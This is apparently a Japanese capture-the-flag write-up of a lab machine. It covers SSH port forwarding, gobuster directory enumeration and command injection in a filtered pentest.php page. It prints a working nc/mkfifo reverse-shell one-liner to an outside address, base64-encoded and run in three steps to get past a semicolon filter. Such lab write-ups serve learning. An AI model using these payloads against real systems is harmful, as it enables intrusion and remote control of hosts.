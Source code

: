 ```shell
$ ssh -L 8000:localhost:8000 files@10.10.229.219
```

gobusterを実行してみる。

```shell
root@ip-10-10-232-239:~# gobuster dir -x=txt,php -u http://localhost:8000 -w ./dirlist.txt -t 30 -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8000
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                ./dirlist.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 178]
/.htaccess.txt        (Status: 403) [Size: 178]
/.htpasswd.txt        (Status: 403) [Size: 178]
/.htpasswd            (Status: 403) [Size: 178]
/pentest.php          (Status: 200) [Size: 195]
Progress: 681570 / 681573 (100.00%)
===============================================================
Finished
===============================================================
```

/pentest.php を発見。

### pentest.php

何かを入力するとそのまま文字列が表示されるが、id, whoami, php 等のコマンド名はフィルターで削除される。

自分宛てにpingを打つと、無応答になりタイムアウトした。（-cオプションで回数指定しなかったため）

コマンド実行の結果は画面表示されないが、確実に実行はされている。

```shell
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.22.182 8888 >/tmp/f' | base64
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjIuMjIuMTgyIDg4ODggPi90bXAvZgo=
```

セミコロンが削除されるので、3回に分けて送信
```shell
echo 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjIuMjIuMTgyIDg4ODggPi90bXAvZgo=' | base64 -d > /tmp/aaa.sh

chmod +x /tmp/aaa.sh

/tmp/aaa.sh
```
